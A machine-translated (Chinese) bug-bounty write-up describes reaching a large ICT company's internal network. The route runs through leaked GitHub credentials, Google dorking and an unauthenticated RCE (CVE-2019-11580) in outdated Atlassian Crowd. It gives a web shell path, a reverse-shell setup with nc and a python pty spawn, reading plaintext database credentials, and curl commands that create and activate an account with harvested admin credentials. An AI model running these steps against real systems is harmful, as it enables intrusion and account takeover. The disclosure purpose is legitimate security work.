# 从侦察到优化 RCE 结果——世界上最大的 ICT 公司之一的简单故事

> 原文：<https://infosecwriteups.com/from-recon-to-optimizing-rce-results-simple-story-with-one-of-the-biggest-ict-company-in-the-ea710bca487a?source=collection_archive---------0----------------------->

## 我最终是如何利用各种漏洞进入内部网络(并访问他们所有的内部资产)的。

بسم الله الرحمن الرحيم

```
Mirroring from: [http://www.firstsight.me/2020/02/from-recon-to-optimizing-rce-results-simple-story-with-one-of-the-biggest-ict-company-in-the-world/](http://www.firstsight.me/2020/02/from-recon-to-optimizing-rce-results-simple-story-with-one-of-the-biggest-ict-company-in-the-world/)*Here is a little story about how I finally could got into an internal network (and could accessing all of their internal assets) at one of the biggest ICT company in the world by using various vulnerabilities (from sensitive data exposure, miss-configuration, until outdated version of application that vulnerable to unauthenticated RCE).*Note: The program owner has given me a permission to release this article.PDF Version: [Download here.](http://firstsight.me/fia07a53c4ec63d2b0d47fe27ea2645d82f8c98648/[ENG]%20The%20Story%20about%20How%20I%20Finally%20could%20Got%20into%20an%20Internal%20Network%20v03.pdf)
```

因此，正如我的其他文章一样，这篇简单的文章将有两种不同的方法，它们是:

*   对于只需要这篇文章的要点的人来说(是的，**如果读者已经理解了每一个流程，这可以节省大量的时间**。只是请好心人看看**TL；博士**节)，以及
*   对于需要了解这些发现的执行流程或旅程的人来说(InshaAllah 它可以告诉读者我的一些方法)。希望它也能帮助处于红队活动“第一阶段”的人们。

请欣赏这个故事。

# I. TL 速度三角形定位法(dead reckoning)

简而言之，在获得内部网络的过程中，有 3 个独立的要点(姑且称之为阶段)，它们是:

*   在 Github 上寻找目标的凭证和内部 IP 地址(包括这两者的模式),并继续学习他们的开发文化，如使用的框架(这可以让我们更容易知道这是否属于他们)。

参见 [**Th3g3nt3lman**](https://twitter.com/th3g3nt3lman) 在 ***Bugcrowd 大学***:[**Github Recon 及敏感数据曝光**](https://www.youtube.com/watch?v=l0YsEk_59fQ) **。**

*   第二个是我不知道为什么要做的事情，但是它很有效！因此，在得到他们的密码模式后，我使用简单的谷歌呆子来查找是否有任何意外泄漏被谷歌索引或没有。简单的呆子就是: **site:*.target.com 和 intext:'their_password'**

参见我的一篇文章:[**【PayPal 和 Xoom (via Google Dork)的信息披露】**](http://www.firstsight.me/2017/12/information-disclosure-at-paypal-and-xoom-paypal-acquisition-via-search-engine/) **。**

*   最后一个，我回到我的子域枚举结果，最终发现他们的一个子域正在使用过时的 Atlassian Crowd 版本。通过使用[**CVE-2019–11580**](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-11580)的公开漏洞，我就可以获得这台服务器的 root 权限。在查看该服务器的内部 IP 时，我意识到该服务器是否位于他们的内部网络中，该网络可以直接从内部访问非公共资源和大部分公共资源。

是的，正如您所看到的，第一点(Github recon)的所有信息也可以在此阶段使用，因为没有任何安全边界(如防火墙和其他)来与其他资产通信(是的，这个摘要得到了加强，因为我在 point 到他们的几个资产时，成功地从其他网段获得了他们内部 IP 地址的几个响应)。


图 1 亚特兰蒂斯人群—过时版本


图 2 当得到稳定的反向壳时



图 3 ping 几个公共资产后得到几个(内部 IP)响应

# 二。旅程

因此，回到 2019 年 12 月前，我计划优化我的狩猎活动，以实现我在最后几个月足够活跃的目标。带着获得 RCE 并访问他们内部资产的希望，我尝试从 basic 开始进行一些活动。

## 2.1.来自 Github 的侦察

因为我已经(至少)有了数千个他们的子域名(在大约 3 个月内找到 90 多个发现后，我还不知道我应该做什么)，然后我试图再次回到 basic。在那种情况下，我试图在 Github 进行侦察，寻找一些我可能能够得到的信息。(这次谈话可能是一个很好的参考: [Github Recon 和敏感数据曝光](https://www.youtube.com/watch?v=l0YsEk_59fQ))。

那么，这次侦察的目的是什么？是寻找凭据并对受影响的服务进行测试，以确定它是否有效？大多数情况下，是的。但我也尝试了其他可能会让我有所收获的方法。

我做的事情是:

**1。**收集凭证(是否仍然有效)然后尝试**寻找图案**。这是**找出默认密码**，该密码可能由管理员在创建帐户时提供给每个用户。这个问题的目的将在下一节(#2.2)中回答。


图 4 在 Github 找到的几个有效和无效的凭证

在这次活动中，我发现了大约 50 个不同的密码。

**2。**收集 IP 地址**尝试学习模式**。在这种情况下，可以实现两点，即

*   **第一个原因:**作为我们提交给项目的报告的支持数据(记住，在将报告发送给项目负责人之前，会有分析师对报告进行分析。只是不要在没有任何分析的情况下报告问题，浪费他们的时间)。我想说的是，如果侦察的结果包含很多内部资产(不能公开)，那么也有假警报的可能性。所以，当你学会了这个模式，它可以帮助你分析这个仓库是否属于他们。
*   是真的吗？嗯，至少我从这个方法中成功找到了 5 个 P1。



图 5 少数报告的问题

```
Believe me, reporting an issue with an analysis will not waste the analyst’s time. And, they will also be happy to help you ask the program owner directly.
```

*   **第二个原因**是为了让我们以后访问他们的内部网络时更容易连接到找到的资产。

**3。**最后，第三个是学习他们的发展文化。在这一部分，经过大约 16 个小时的调查(分开几天，我每天只花大约 2-3 个小时)，我终于找到了一些用于开发他们内部应用程序的框架(模式)。这也让我们更容易识别哪个属于他们的资产

另一方面，这一点也可以帮助每个在源代码审查方面很强的人找到相关应用程序中可能存在的弱点。

所以，**这三样东西是我们侦察的第一阶段**来收集关于目标的大量信息。

但是我该怎么做呢？在继续第二阶段之前，我将在下一节解释。

## 2.1.1.来自 Github 的 PoC-Recon

在[他的演讲](https://www.youtube.com/watch?v=l0YsEk_59fQ)， **Th3g3nt3lman** 提供了全面的解释。但是如果我试着再解释一遍也没有错。

因此，开发人员在使用 Github 等协作软件工具时会犯一些常见的错误，即他们将凭证(尤其是有效凭证)放在公共存储库中。当然，有许多因素会使这种情况发生，要么是因为开发者不知道 Github 目前是否免费提供了“私有”功能，要么是开发者没有意识到未经授权的人是否也可以找到他们的公共存储库并为自己的目的使用敏感的东西。

**注意:**不考虑任何因素，这当然是必须考虑并引起重视的事情，因为这个问题通常被用作进入目标网络的第一步。

回到主题，重现这一侦察需要登录我们的 Github 帐户，并开始使用各种关键字优化搜索，例如:

*   **密码** **".target.tld"** 。请注意，在另一边，“密码”关键字也可以替换为其他好的，如 telnet，ftp，ssh，mysql，jdbc，oracle，和其他。
*   **target . TLD**“密码 _ 值 _ 此处”。老实说，我不知道 Github 的搜索功能是如何工作的，但是通过使用这两个不同的关键字，我得到了一个不同的结果，让我找到了一些好东西。

假设您发现了一个存储库，其中包含一个属于目标资产密码。你所需要做的就是不要停留在那里。浏览该存储库中的更多信息，例如:

**i.** 该用户是否将(目标的)其他凭证存储在那些找到的存储库中，或者存储在用户自己拥有的其他存储库中？这可以通过使用简单的关键字(比如**密码**、**密码**、**密码**等等)来实现。


图 6 对特定存储库的特定搜索示例


图 7 具体搜索该用户拥有的存储库的示例

**二。**该存储库是否有另一个端点信息？这也可以通过对这个存储库使用简单的关键字(比如 **target.tld** )来实现。

如果我们什么都没找到呢？然后尝试查看该用户拥有的另一个存储库。

**三。**如果这两个流程都“不起作用”，那么尝试在这个存储库中找到与这个用户协作的其他用户。比方说，你找到了 B 用户。然后尝试访问这些用户，并在该用户帐户中重复第一(I)和第二(ii)步，以找到其他可能的有用信息。

作为总结，我做了一个简单的思维导图，可能对读者有用:



图 8 简单 Github 侦察的思维导图

## 2.1.2.常见问题

是的，我听到了。所有这些(手动)活动都将花费大量时间，而且不能保证我们能找到感兴趣的信息。 ***但是，这就是测试/狩猎的重点吧？***

有没有任何自动化工具可以帮助我们进行这项活动？是的，很多。但是当我测试几个公共工具时，我并没有发现多少我从这个手动活动中发现的东西。所以，自动化工具是没有用的？不，我不是那个意思。结合自动化和手动方式是优化结果的明智之举。如果自动化工具找不到我从手工方式找到的东西，反之亦然。

## 2.2.来自谷歌呆子的侦察

在我认为我已经收集了足够的信息之后，我就进入了下一个阶段。

说实话，我也不知道自己为什么要这么做，但当时这么做似乎很有道理。简而言之，我尝试使用一个简单的谷歌呆子，这是通过把他们的内部(私人)子域和密码模式，我发现作为关键字。

**注 1:** 我如何知道他们的内部(私有)子域？要回答这个问题，请参考第一阶段的解释。总之，从第一阶段的侦察活动，我发现了一个有趣的子域，其中包含几个更多的子域。从这里，我假设如果这个子域被他们用作开发区域的一部分。


图 9 一个包含多个子域子域——对于开发区域

如前所述，因为它是一个内部子域(私人)，那么所有这些子域不能从公共区域访问。

**注 2:** 要了解更多关于与 Google Dork 合作的细节，请参考[我写的一篇关于 PayPal 和 Xoom 的文章](http://www.firstsight.me/2017/12/information-disclosure-at-paypal-and-xoom-paypal-acquisition-via-search-engine/)。

这是我使用的简单关键词:

```
site:***.subx.target.tld** AND intext:'**one_of_password_pattern_value_here**'
```

这背后的原因是:我试图找到任何可能的敏感信息(包含那些密码模式)，可能在该子域(虽然我知道，如果这些子域只有内部访问可用)。你猜怎么着？有用！



图 10 发现了许多敏感信息

从这个阶段，我获得了很多信息，比如凭证(用于 web 和其他服务，比如 FTP 或 SSH)、其他端点、内部 IP 地址等等。一件好事是，一些信息可以从公共区域访问，但其中一些需要内部访问。

请注意，通过优化使用的关键字，我们还可以从这次侦察中列举更多的信息。例如，只需将 intext 参数中的“密码模式”更改为其他值，如找到的 IP 地址(只需输入前两个八位字节)、产品名称(Oracle、MySQL、MSSQL 和其他)、服务名称(FTP、SSH、DB 和其他)、登录活动常用的其他关键字(如密码、pwd、pass、用户名、userid 和其他)，或通常与登录相关的其他关键字(如 dashboard、cms 和其他)。

## 2.2.1.结果——来自谷歌呆子的侦察

我得到的一个非常好的结果是，我发现大约有 4 个帐户可以用来访问“范围内”计划门户，这些帐户可以访问客户数据。

是的，这个账户使用了我在 Github recon 活动中发现的密码模式。



图 11 几个好结果

另一方面，我还可以访问他们的一个“**超级管理员**”帐户(很遗憾，不在“范围内”资产中)，其中包含他们客户的许多大公司的名称(有大量交易数据)。(对不起，我不能给出那些门户的截图)。


图 12 已经解决了——他们只是还没有更新

还有什么？嗯，如前所述，我还成功地访问了包含大量敏感信息的另一个端点(使用找到的帐户)。

但是，由于需要内部访问而无法使用的信息怎么办？别担心。我们会保留这个，就像我们保留从 Github recon 获得的信息一样。

## 2.3.未经认证的 RCE 在过时版本的亚特兰蒂斯人群

## 2.3.1.发现过时的 Atlassian 群组应用程序

所以，我收集了很多他们的内部信息。我也有他们的密码模式。但是我在这里有一个真正的问题，那就是，虽然我已经报告了我在第一阶段和第二阶段发现的几乎所有问题(可以从公共区域访问)，**我仍然没有内部访问**。

从这种情况下，然后我尝试再次看到我的子域枚举的结果。为了简单起见，我使用了[的 aquatone 捕捉功能](https://github.com/michenriksen/aquatone)。

仔细找了一下，终于找到了一个看起来很老的端点。它只包含几个词与可点击的链接，例如:第一个词，第二个词，第三个词，和人群。在所有的词中，唯一引起我注意的是“**人群**”。(**注**:不出所料，其他可点击的链接并没有什么好的可利用之处)。

当访问“crowd”可点击链接时，我被重定向到一个包含 Atlassian Crowd 应用程序的子域。


图 13 找到了过时的 Atlassian 群组应用程序

简单说明一下，**在进行快速测试**的同时，我也把自己的**重点放在了 3 件事情上**(对于那些接受攻击性技术认证以及与之类似或者摆弄 HackTheBox 以及与之类似的人来说，将会熟悉这个常见的概念)，它们是:

*   对使用的帐户和密码进行测试
*   针对尚未实施的补丁进行测试(过时/过期版本)
*   针对已实施的配置错误进行测试。

简而言之，我通过使用简单的 Google Dork 找到了漏洞利用信息。



图 14 查看关于公共漏洞的信息

在仔细查看信息后，我发现使用的版本是否受到这个未经验证的 RCE 问题的影响。标记为**CVE-2019–11580**。

我做的下一件事是寻找可能发布的公共漏洞。简而言之，我得到了这个链接:


图 15 少数 Atlassian Crowd 和 Crowd 数据中心版本的公开利用——RCE

## 2.3.2.我怎么知道这个人是否脆弱？

有一个简单的方法可以用来确定应用程序是否易受攻击。

我们需要做的只是访问/admin/ path 中的 *uploadplugin.action* 端点。如果应用程序显示错误消息“ **HTTP 状态 400 —需要 POST** ”，那么很有可能，应用程序易受此 RCE 的攻击(这告诉我们插件是否可用，并且可以在不需要认证的情况下使用)。


图 16 显示了一条错误消息“需要 POST”

## 2.3.3.死刑

重现这个问题非常简单。我们需要做的只是下载其中一个可以在 https://github.com/jas502n/CVE-2019-11580[找到的工作漏洞。](https://github.com/jas502n/CVE-2019-11580)

当脚本被执行到目标时(而目标是易受攻击的)，那么 web shell 将自动出现。(**没错，我们在**)！



图 17 执行脚本

要通过 web 浏览器访问 web shell，那么我们只需要访问 **/crowd/plugins/servlet/exp？cmd=command_here** 端点。只需将“ **command_here** ”替换为另一个 OS 命令。


图 18 根访问

总而言之，利用这一目标的好处是:

1.  我们**不需要任何有效的用户名或密码**来执行这个。(这就是为什么它叫未认证/预认证 RCE)；
2.  第二个，**RCE 作为根用户**被执行。这意味着，我们不需要做任何事情来获得根访问；
3.  第三个是，**没有保护该应用程序的安全边界**。因此，我们在开发目标时没有发现任何困难。

## 2.3.4.这还不够，我们需要一个可以与系统交互的外壳！

因为我们还没有交互外壳(可以通过传递我们输入的数据与操作系统交互的外壳)，那么我们必须首先将这个外壳连接到我们的机器。

通常，我使用 PentestMonkey 的[反向外壳备忘单。但令人难过的是，没有命令可以将 shell 连接到我的机器上。最有可能的是，应用程序过滤特殊字符，如> &、‘和’](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

在这种情况下，我将简单的反向 shell python 脚本放在我的机器上，然后强迫目标下载它(通过使用可用的 web shell)。


图 19 Python 中简单的反向 Shell 脚本


图 20 从我们的机器下载脚本

在这种情况下，我们最终在目标服务器上有了自己的反向 shell 脚本(python)。但问题是，这个脚本不可执行。因此，下一件事，我们应该做的是 chmod 脚本(例如与 700，因为我们的访问已经是根)。


图 21 将 Python 脚本转换成 700

因此，现在我们的脚本应该是可执行的，因为我们已经更改了权限。


图 22 脚本变得可执行— rwx

在我们的脚本被下载后，我们只需要在我们的服务器上设置监听器。

```
$ **nc -lvp <our_port>**
```

然后，尝试通过我们部署的 web shell 在目标服务器上执行 python 脚本:


图 23 获得交互式外壳


图 24 Shell 作为根用户执行

第一次可以连接到我们的反向外壳，基本上我们还没有一个交互的外壳。所以，我们需要做的就是用 python 运行一个简单的命令:

```
python -c 'import pty;pty.spawn("/bin/bash")'
```

从这里开始，我们终于有了交互式外壳。我们也可以毫无顾虑地连接到数据库或其他服务。

**注:**详见 G0tmi1k 的个人博客:“[基本 Linux 权限提升](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)”。



图 25 允许我们连接到可用数据库的交互式外壳

## 2.3.5.下一步是什么？

因此，RCE 最大的优势之一是，该服务器位于他们的内部网络中。当我尝试 ping 几个公共资产时，我也得到了一个不错的(内部 IP 地址)响应。是的，它的意思是，**我们在世界上最大的 ICT 公司之一的内部网络中！**

现在，还记得我们从第一和第二阶段获得并保留的许多内部信息吗？然后**我们也可以在第三阶段使用它！**

最后，我们进入公司内部的旅程已经结束了。我已经报告了这个问题，并得到了很好的回应。

```
**Disclaimer:** I didn’t execute any further. All I do only shows things that can be used from the data that I got from the previous stages. Just don’t do it in bug hunting without any permission.
```

**注:**虽然问题是在“范围外”的目标中发现的，但至少我在我的 bug 狩猎活动中实现了我的一个梦想，那就是从外部地区进入世界上一家强大的 ICT 公司(是的，在我看来，在 bug 狩猎中获得 RCE 和内部访问似乎比在正式的 pentest 工作中更难。有时候，我们会和其他朋友开玩笑，“*在臭虫狩猎/臭虫奖励计划中获得 RCE 奖——看起来像一个童话故事*”。


图 26 问题已经解决


图 27 漂亮的回应

## 2.3.6.附加说明

**2.3.6.1。登录人群数据库**

如果你们中的一些人问我如何登录他们的数据库，这是有可能的。

作为一个额外的信息，他们也在这个服务器上安装了 Atlassian Confluence。老实说，我不知道 Atlassian Confluence 和 Atlassian Crowd 的整合流程，甚至不知道它是如何运作的。我想到的是，如果**我看到一个数据库连接**(通过 netstat)，那么很可能在这个服务器上也有一个**数据库连接配置**(通常以明文形式存储凭证)。

搜索了一些参考资料，终于找到一篇文章，解释了凭证是否存储在**<confluence _ home>/confluence . CFG . XML**文件中。


图 28 一篇解释数据库连接配置位置的文章


图 29 试图找出位置

通过使用简单的“locate”命令(因为我不知道 confluence.cfg.xml 文件的确切位置)，然后我发现它是否位于/opt。



图 30 数据库连接字符串的明文

至于其他方面，正如您在前面部分清楚看到的，我成功登录到他们的数据库。



图 31 成功登录应用程序的数据库

**2.3.6.2。存储的密码是加密的，你能登录吗？**

是的，我相信在某些情况下(在正式活动中)，如果我们获得数据的清晰视图(例如，访问 GUI)会更好，这样它可以帮助我们更好地理解识别可能存在的风险(或者识别可能存在的应用程序缺陷，或者找到可能用于其他执行的数据)。

**那么，要不要蛮力**？是的，我们也可以暴力破解密码，但我认为如果我们的时间很短，这不是一个好的选择(除非你有很棒的破解机)。

**我们可以用新创建的密码(例如从我们自己的人群中)替换加密的密码**吗？我认为这是可能的。Atlassian 也在其官方门户网站上提供这种“解决方案”。简而言之，我们可以将现有的 administrator (hash)密码替换为“ **admin** ”的 hash 值。


图 32 如何替换管理员密码

```
**Did I execute this?** The answer **is NO**. Without any permission, we can’t do it. (yes, in a real attack, the Attacker will do it without asking any permissions, but kindly note that **in bug hunting, we didn’t come with the intention to breach**).
```

另一方面，替换这个密码也将使管理员/开发人员意识到是否发生了错误。

因此，在考虑不多的情况下，我选择创建一个新帐户，以便在存在允许攻击者登录现有应用程序的风险时通知程序所有者。

从这里，然后我试图找出有关的可能性，创建一个新的帐户，而不需要登录到应用程序。在搜索了一些参考资料后，我终于发现只要我们有一个管理员密码 crowd，通过 REST 这是否是可能的。



图 33 找出存储管理员密码的文件的位置

由于受影响的 Atlassian 人群的版本是 v.2.x，那么这篇文章仍然有效，我们创建一个帐户。



图 34 crowd . properties 文件的属性

同样，通过使用简单的“定位”命令，我成功地找到了位置。

**2.3.6.2.1。通过 REST 创建账户**

下面这篇文章对我创建账户帮助很大。


图 35 通过 REST API 创建新帐户

简而言之，应该是这样:

```
curl -i -X POST **http://subdomain.target.com**/crowd/rest/usermanagement/latest/user?username=**your_new_user_here** -H 'Content-type: application/json' -H 'Accept: application/json' -u **crowd_administrator_username_here**:**crowd_administrator_password_here** -d'
> {
> "email": "**your@email_here.tld**",
> "name": "**your_new_user_here**",
> "password": {
> "value": "**your_new_user_password_here**"
> }
> }
> '
```

**注**:

*   **您的新用户这里** =表示我们想要创建的用户名
*   **crowd _ administrator _ username _ here**=表示群组的管理员用户名
*   **crowd _ administrator _ password _ here**=表示群组的管理员密码
*   **您的@email_here.tld** =表示我们希望创建的用户名的电子邮件
*   **your _ new _ user _ password _ here**=表示我们希望用于账户的密码

如果成功，那么我们会得到一个很好的回应:

```
HTTP/1.1 201 Created
Server: Apache-Coyote/1.1 
Redacted.
```

**完成了吗？太遗憾了，不。我们需要激活我们的帐户。事实上，(据我所知)有 2 种方法可以做到这一点，这是通过要求管理员激活我们的帐户(这是不可能的，对不对？)或者我们自己用其他 REST API 函数激活它。**

2.3.6.2.2。通过 REST 激活新账户

从这篇文章中，我们将得到如何通过 API 激活我们的帐户的答案。


图 36 教程——如何通过 API 激活我们的账户

简而言之，应该是这样:

```
curl -i -u **crowd_administrator_username_here**:**crowd_administrator_password_here** -X PUT --data '{"name":"**your_new_user_here**", "active":"true"}' **http://subdomain.target.com**/crowd/rest/usermanagement/1/user?username=**your_new_user_here** --header 'Content-Type: application/json' --header 'Accept: application/json'
```

**注**:

*   你的新用户在这里是指我们之前创建的用户名
*   **群组管理员用户名这里** =指群组的管理员用户名
*   **crowd _ administrator _ password _ here**=表示群组的管理员密码

如果成功，那么我们将得到一个简单的回应:

```
HTTP/1.1 204 No Content 
Server: Apache-Coyote/1.1 
Redacted.
```

之后，我们将能够登录到应用程序。



图 37 成功登录应用程序

# 三。吸取的教训

所以，我们在这里，几乎在文章的结尾。在这一节中，我想简单回顾一下，让读者更容易理解这段简单旅程中的一些教训:

*   在我看来(如果我错了，请纠正我)，侦察并不总是意味着资产发现活动。在这一次，这也意味着我们试图学习 API 如何工作，target 的开发文化，等等。

请记住，在回复 [@Mongobug](https://twitter.com/mongobug) 的一条推文时， [@NahamSec](https://twitter.com/NahamSec) 也用非常简单的话解释了 recon 的一个定义:

> 侦察不应仅限于寻找资产和过时的东西。它还能理解应用程序，找到不易使用的功能。为了取得成功，需要在应用程序的侦察和良好的 ol 黑客之间取得平衡。


图 38 侦察并不总是意味着资产发现活动

*   永远不要扔掉你搜寻的结果(除非在正式工作中，要求你在完成工作后删除所有这些数据)。有一次，这也能对你的下一步棋有用。

在这种情况下，我没有在第一阶段丢弃我的狩猎结果。Alhamdulillah 的好处是，这些结果可用于第二阶段，最终“生产”9000 美元。

*   请享受你的捕虫活动。也许不是每个人都同意这一点，但是，不要总是想着赏金(特别是如果你刚刚开始在这一个，从来没有一个经验)。尽量考“合法/官方”目标。总之，它可以提高你的知识，方法，以及在提供奖励的目标中寻找漏洞的任何东西。

我试图从不提供赏金的目标(但开启了负责任的揭露计划)那里学到很多技术(我从未面对过)。在这一点上，我能说的一件事是，那些被使用的技术并不总是我们每天面对的技术。换句话说，我们需要一个官方的“土地”(法律目标)来学习它，让我们熟悉它。

*   试着回到基础。
*   如果你认为有人可以轻松做到，那么试着[看看这些来自](https://twitter.com/brutelogic/status/964143091635630080) [@BruteLogic](https://twitter.com/brutelogic) 的激励词:

> “他们认为我们做事很快。但是有很多艰苦的工作，无止境的反复试验。花很多时间分析搜索引擎结果，阅读大量没有帮助的信息。他们最终看到的是表演时间。我们让它看起来很容易，但事实并非如此。”



图 39 激励词之一

*   最后一条是我最喜欢的名言(说真的，这很美):


图 40 没有人能就这样从一无所有变成精英

这些话真的激励我分享东西，即使我分享的东西并不总是好东西。但是在安拉的允许下，我得到了很多反馈，这些反馈激励我改正我的错误或改进事情。

# 四。结束的

好吧，即使第三阶段(RCE)没有赏金，至少我可以实现我的一个梦想，那就是“进入”大牌公司的内部网络(在 bug hunting / bug bounty 计划中)，然后看他们的内部 IP(看起来很搞笑，但是满足我)。

除了奖励之外，就像我说的，享受你的捕虫活动吧。

最后，我的文章到此结束。下次见，英沙拉。

# 动词 （verb 的缩写）信用

*   [Th3g3nt3lman](https://twitter.com/th3g3nt3lman) 在 Bugcrowd 大学演讲: [Github Recon 和敏感数据曝光](https://www.youtube.com/watch?v=l0YsEk_59fQ)。
*   [微软 Yammer - oAuth 旁路会话漏洞](https://www.vulnerability-lab.com/get_content.php?id=1003)作者 Ateeq Khan。
*   [Blok 搜索索引与‘no index’](https://support.google.com/webmasters/answer/93710)-谷歌的支持。
*   [CVE-2019–11580](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-11580)
*   [反壳备忘单](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) - Pentest Monkey
*   [G0 TMI 1k 的基本 Linux 权限提升](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
*   [https://confluence . atlassian . com/crowd/the-crowd-properties-file-98665664 . html](https://confluence.atlassian.com/crowd/the-crowd-properties-file-98665664.html)
*   [https://community . atlassian . com/t5/Crowd-questions/Is-possible-to-create-users-via-REST-API/qaq-p/109667](https://community.atlassian.com/t5/Crowd-questions/Is-it-possible-to-create-users-via-REST-api/qaq-p/109667)
*   [https://confluence . atlassian . com/crowd kb/how-to-deactivate-activate-a-user-through-API-814197032 . html](https://confluence.atlassian.com/crowdkb/how-to-deactivate-activate-a-user-through-api-814197032.html)

*关注* [*Infosec 报道*](https://medium.com/bugbountywriteup) *获取更多此类精彩报道。*

[](https://medium.com/bugbountywriteup) [## 信息安全报道

### 收集了世界上最好的黑客的文章，主题从 bug 奖金和 CTF 到 vulnhub…

medium.com](https://medium.com/bugbountywriteup)